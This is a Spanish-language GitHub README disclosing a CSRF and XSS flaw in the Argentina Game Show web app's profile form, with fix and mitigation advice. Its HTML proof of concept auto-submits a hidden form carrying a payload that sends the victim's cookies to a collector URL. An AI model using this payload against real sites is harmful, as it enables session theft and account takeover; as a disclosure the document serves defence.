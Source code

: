 # AGS-CSRF-XSS POC

## Tabla de contenidos
- [Tabla de contenidos](#tabla-de-contenidos)
- [Vulnerabilidad](#vulnerabilidad)
- [Fix](#fix)
- [Mitigacion](#mitigacion)
- [POC](#poc)

## Vulnerabilidad
El form para cambiar la información del usuario (/mis-datos) no tiene protección contra CSRF, la cookie PHPSSESSID tiene el flag `SameSite` en `None` por lo que se agrega automaticamente al hacer el submit sin hacer ningun chequeo del origen.

Uno puede desde otra pagina web, hacer un form con los datos que quiere cambiar y hacer que se envíe solo, el usuario no se dará cuenta que está cambiando su información. Al hacer el cambio, el usuario es redirigido a una pagina donde se muestran los nuevos datos.

El servidor no sanitiza correctamente los datos que se le envian, y la forma en la los muestra es vulnerable a XSS, se puede inyectar codigo en cualquiera de los campos. (filtra algunos caracteres pero no de forma correcta)

Este es el codigo que se puede usar para explotarlo:

```html
<body>
    <form name="myForm" id="myForm" method="POST" style="display: none;" action="https://app.argentinagameshow.com/ajax/table_edit.php?notab=1&tid=22&ftid=&rid=&sdb=0&id=&tab=undefined">
        <!-- redirige a nuestro servidor con las cookies en la url -->
        <input type="text" name="22_98" value="<img src='' onerror=window.location.href=`http://localhost:8888/info?${document.cookie}`>">
        <input type="text" name="action" value="edit">
        <input type="submit" value="Submit">
    </form>

    <script>
        document.getElementById("myForm").submit();
    </script>
</body>
```

## Fix
Hay dos formas de solucionar este problema, la primera es agregar un token CSRF al form que esté linkeado con la sesion o el usuario, y verificar que el token sea correcto del lado del servidor antes de hacer el cambio. 

La segunda es agregar el flag `SameSite` a la cookie PHPSSESSID, y ponerlo en `Lax` o `Strict`, esto hará que el navegador no envie la cookie al servidor si el origen no es el mismo que el del servidor.

Este post de [Porswigger](https://portswigger.net/web-security/csrf/preventing) explica mas en detalle como solucionar problemas relaciondos a CSRF, que ventajas y desventajas tiene cada una de las soluciones.

## Mitigación
Mientras los de AGS no arreglen este problema, forma de mitigar este problema que tenemos por ahora es cerrar sesion en la pagina de la AGS y usar unicamente la APP de telefono. La app corre en un navegador propio y los demas navegadores no tienen acceso a sus cookies. **Y no hacer click en links que no sean de confianza.**

## POC
Este repo tiene incluido un POC, para correrlo tienen que tener instalado node y typescript. instalan las dependencias con `npm i` y lo ejecutan con `npm run dev`.
